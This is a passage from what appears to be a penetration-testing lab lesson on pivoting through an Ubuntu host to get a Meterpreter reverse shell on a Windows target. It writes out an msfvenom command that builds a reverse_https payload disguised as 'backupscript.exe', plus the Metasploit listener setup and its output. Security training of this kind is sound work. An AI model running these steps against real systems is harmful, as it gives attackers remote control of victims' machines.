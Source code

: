 `But what happens if we try to gain a reverse shell?`

The `outgoing connection` for the Windows host is only limited to the `172.16.5.0/23` network. This is because the Windows host does not have any direct connection with the network the attack host is on. If we start a Metasploit listener on our attack host and try to get a reverse shell, we won't be able to get a direct connection here because the Windows server doesn't know how to route traffic leaving its network (172.16.5.0/23) to reach the 10.129.x.x (the Academy Lab network).

There are several times during a penetration testing engagement when having just a remote desktop connection is not feasible. You might want to `upload`/`download` files (when the RDP clipboard is disabled), `use exploits` or `low-level Windows API` using a Meterpreter session to perform enumeration on the Windows host, which is not possible using the built-in [Windows executables](https://lolbas-project.github.io/).

In these cases, we would have to find a pivot host, which is a common connection point between our attack host and the Windows server. In our case, our pivot host would be the Ubuntu server since it can connect to both: `our attack host` and `the Windows target`. To gain a `Meterpreter shell` on Windows, we will create a Meterpreter HTTPS payload using `msfvenom`, but the configuration of the reverse connection for the payload would be the Ubuntu server's host IP address (`172.16.5.129`). We will use the port 8080 on the Ubuntu server to forward all of our reverse packets to our attack hosts' 8000 port, where our Metasploit listener is running.

#### Creating a Windows Payload with msfvenom

    matmarqx@htb[/htb]$ msfvenom -p windows/x64/meterpreter/reverse_https lhost= <InternalIPofPivotHost> -f exe -o backupscript.exe LPORT=8080
    
    [-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
    [-] No arch selected, selecting arch: x64 from the payload
    No encoder specified, outputting raw payload
    Payload size: 712 bytes
    Final size of exe file: 7168 bytes
    Saved as: backupscript.exe
    

#### Configuring & Starting the multi/handler

    msf6 > use exploit/multi/handler
    
    [*] Using configured payload generic/shell_reverse_tcp
    msf6 exploit(multi/handler) > set payload windows/x64/meterpreter/reverse_https
    payload => windows/x64/meterpreter/reverse_https
    msf6 exploit(multi/handler) > set lhost 0.0.0.0
    lhost => 0.0.0.0
    msf6 exploit(multi/handler) > set lport 8000
    lport => 8000
    msf6 exploit(multi/handler) > run
    
    [*] Started HTTPS reverse handler on https://0.0.0.0:8000
    

Once our payload is created and we have our listener configured & running, we can copy the payload to the Ubuntu server using the `scp` command since we already have the credentials to connect to the Ubuntu server using SSH.

#### Transferring Payload to Pivot Host
